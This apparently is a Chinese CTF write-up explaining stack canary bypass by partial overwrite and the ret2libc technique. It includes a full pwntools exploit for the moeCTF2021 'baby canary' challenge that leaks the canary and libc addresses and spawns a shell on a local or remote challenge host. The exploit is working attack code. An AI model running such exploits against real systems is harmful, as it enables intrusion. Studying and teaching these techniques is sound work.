


# [PWN.0x01]canary|partial overwrite|ret2libc


### canary绕过

#### 什么是canary？

canary是一种防止栈溢出的保护机制，可以在终端中使用checksec命令检查ELF文件是否开启了canary保护。

是否开启canary的编译选项：

```bash
gcc -o test test.c // 默认情况下，不开启Canary保护
gcc -fno-stack-protector -o test test.c //禁用栈保护
gcc -fstack-protector -o test test.c //启用堆栈保护，不过只为局部变量中含有 char 数组的函数插入保护代码
gcc -fstack-protector-all -o test test.c //启用堆栈保护，为所有函数插入保护代码
```

在开启了canary的情况下，程序会在栈底额外存储一个值，并在函数return的时候检查这个值是否发生变动，从而判断程序是否发生了栈溢出，可以大大提高程序运行的安全性。

#### 如何绕过canary？

canary本身有个防意外输出的机制，由于printf %s函数以`\x00`为输出结束的标志，因此为了防止canary下面的合法数据段被合法写入的情况下，canary被printf函数意外输出，所以在小端序程序中，canary的最低位字节一定为`\x00`，因此可以进行**partial overwrite**，即部分覆盖。在写完合法的区域之后，溢出写入一个字节的数据把canary末尾的`\x00`覆盖掉，这样之后的printf函数就会顺带着泄露canary的值。


### ret2libc

#### 概述

在较为基础的pwn题中一般都有一个显性的`system`函数和`/bin/sh`字符串供选手调用。

如果这两者都不显性存在，就可以使用ret2libc方法。

这种方法主要针对**动态链接（dynamic linking）**的程序，程序运行时会调用 **libc.so** (程序被装载时，动态链接器会将程序所有所需的动态链接库加载至进程空间，libc.so 就是其中最基本的一个)。

**libc.so** 是 linux 下 C 语言库中的运行库**glibc** 的动态链接版，并且 **libc**.**so** 中包含了大量的可以利用的函数，包括 **system() 、execve()** 等系统级函数，我们可以通过找到这些函数在内存中的地址覆盖掉返回地址来获得当前进程的控制权。通常情况下，我们会选择执行 **system("/bin/sh")** 来打开 shell。

工作重心转向获取libc.so加载进内存的可利用的函数的地址。

#### 什么是动态链接？

[深入理解动态链接 - 简书 (jianshu.com)](https://www.jianshu.com/p/cdb5cfcb5056)

[深入理解GOT表和PLT表 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/130271689)

[got表和plt表在程序执行过程中的作用 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1680494)

简而言之，装载到程序中的有两张表，对于一个外部库的被调用的函数，plt表指向got表中这个函数的位置，got表中则存储着这个函数在内存中的真实地址，函数的调用时通过plt表来完成的。

而对于一个链接库（如libc.so）而言，虽然其加载进内存的具体地址不确定，但是其内部的各个函数的相对位置是确定的，也就是说，可以构造payload泄露libc.so中的一个函数的真实地址，从而根据固定的偏移获取system等函数的地址。


#### 例题：moeCTF2021 - baby canary

checksec后发现开了NX和canary保护。



canary的绕过方法上面已有介绍，构造payload如下，借助第一个puts获取canary的值。

```python
payload1=b'a'*(0x4c-0x0c)+b'b'
p.send(payload1)
p.recvuntil(payload1)
canary=u32(p.recv(3).rjust(4,b'\x00'))
```

接下来要获取libc.so库中的某一函数的真实地址，不妨来获取puts函数的真实地址。构造payload使gots表中puts的值输出，获取到puts函数的真实地址，并使函数返回至main函数中，重新开始程序进行进一步攻击。

```python
payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
#注意上面的puts_got指的是地址，而真实的值是不固定的，需要被puts函数泄露
p.send(payload2)
p.recvuntil("he flag!\n")
puts_addr=u32(p.recv(4))
```

之后根据已知的libc.so中puts函数和system，/bin/sh的便宜来获取system和/bin/sh的真实位置，从而构造payload攻击。

完整exp：

```python
from pwn import *
context(os="linux",arch="amd64",log_level="debug")
local=1
e=ELF("./baby_canary")
puts_got=e.got["puts"] #指向got表的地址，got表具体的值要靠puts泄露
puts_plt=e.plt["puts"]
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
def main():
    if local:
        p=process("./baby_canary")
    else:
        p=remote("114.67.175.224",11482)
    p.recv()
    payload1=b'a'*(0x4c-0x0c)+b'b'
    p.send(payload1)
    p.recvuntil(payload1)
    canary=u32(p.recv(3).rjust(4,b'\x00'))
    p.recv()
    print("canary: ",hex(canary))
    payload2=b'a'*(0x4c-0x0c)+p32(canary)+b'a'*12+p32(puts_plt)+p32(e.symbols["main"])+p32(puts_got)
    p.send(payload2)
    p.recvuntil("he flag!\n")
    puts_addr=u32(p.recv(4))
    print(puts_addr)
    libc_base = puts_addr - libc.sym['puts']
    system_addr = libc_base + libc.sym['system']
    binsh_addr = libc_base + libc.search(b'/bin/sh').__next__()

    p.recvuntil("u are?\n")
    p.send(payload1)
    payload3=b'a'*(0x4c-0xc)+p32(canary)+b'a'*12+p32(system_addr)+b'aaaa'+p32(binsh_addr)
    p.send(payload3)
    p.interactive()
main()
```


### 小插曲

实践中发现，在函数调用栈中除了该有的局部变量，有时会出现一些奇怪的变量，这是由编译器决定的，一般用于存储寄存器上下文。



